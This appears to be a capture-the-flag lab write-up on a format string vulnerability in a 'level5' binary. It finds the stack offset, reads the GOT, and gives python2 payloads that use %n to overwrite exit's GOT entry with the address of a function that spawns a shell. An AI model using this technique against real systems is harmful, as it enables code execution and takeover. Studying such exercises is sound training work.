 level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

format string vuln again

```shell
root@81bba73d829e:~# ./level5
AAAA %4$x
AAAA 41414141
```

A shell is run at `0x080484a4` function `o` => `134513828`

`objdump -R ./level5` to get the GOT (Global Offset Table)

binary is dynamically linked so we can overwrite the addresse where the address of `exit` is stored `0x8049838` and write it down the address of the `o` function

to test in gdb: `set {int}0x8049838 = 0x080484a4`

test payload: `python2 -c 'print "\x38\x98\x04\x08" + "%4$n"' > payloadlevel5`

`python2 -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/payloadlevel5`

